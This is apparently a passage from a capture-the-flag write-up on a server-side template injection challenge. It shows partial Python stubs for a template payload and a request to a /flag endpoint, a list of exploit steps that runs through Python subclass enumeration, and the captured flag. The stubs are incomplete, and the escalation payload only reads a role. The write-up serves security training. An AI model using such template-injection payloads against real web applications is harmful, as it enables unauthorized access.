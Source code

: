### 7. Privilege Escalation
If flag extraction fails, try escalating privileges to admin to access the `/flag` endpoint:

```python
def escalate_privileges_sandbox():
    payload = {
        "template": "{{ request.application.__self__.users['hacker']['role'] }}"
    }
```

### 8. Accessing Flag Endpoint
If privilege escalation succeeds, access the admin-only flag endpoint:

```python
def get_flag_endpoint():
    url = f"{TARGET}/flag"
    response = session.get(url)
```

## Successful Exploit

The successful exploit path typically follows these steps:

1. Register a new user account
2. Log in to obtain a session
3. Confirm SSTI vulnerability exists
4. Enumerate available Python subclasses
5. Use the subclass chain to access the `__main__` module where FLAG is stored
6. Retrieve the flag directly through template injection

The flag is: `CSP{SST1_1s_N0t_Th4t_E4sy_R1ght}`
